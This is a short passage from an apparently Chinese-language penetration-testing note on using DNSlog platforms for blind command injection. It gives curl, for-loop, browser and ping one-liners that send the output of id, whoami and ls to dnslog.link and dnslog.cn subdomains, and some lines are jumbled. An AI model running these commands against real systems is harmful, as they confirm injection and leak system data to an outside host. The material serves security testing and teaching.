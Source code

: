 curl http://test.dnslog.link/$(id|base64) 碰到ls这类多个输出的命令，直接使用脚本：

```shell
for i in $(ls /);do curl "http://$i.123.test.dnslog.link/";done; windows：for i in $(ls /);do curl "http://$i.5ek72t.dnslog.cn/";done; windows：5ek72t.dnslog.cn
```

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-curl-测试-1.png)

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-curl-测试结果.png)



#### windows：

利用HTTP请求：

```
for /F %x in ('whoami') do start http://test.dnslog.link/%x
```



将结果使用默认浏览器弹出；利用DNS请求：获取计算机名：

```
for /F "delims=/" %i in ('whoami') do ping -n 1 %i.test.dnslog.link
```


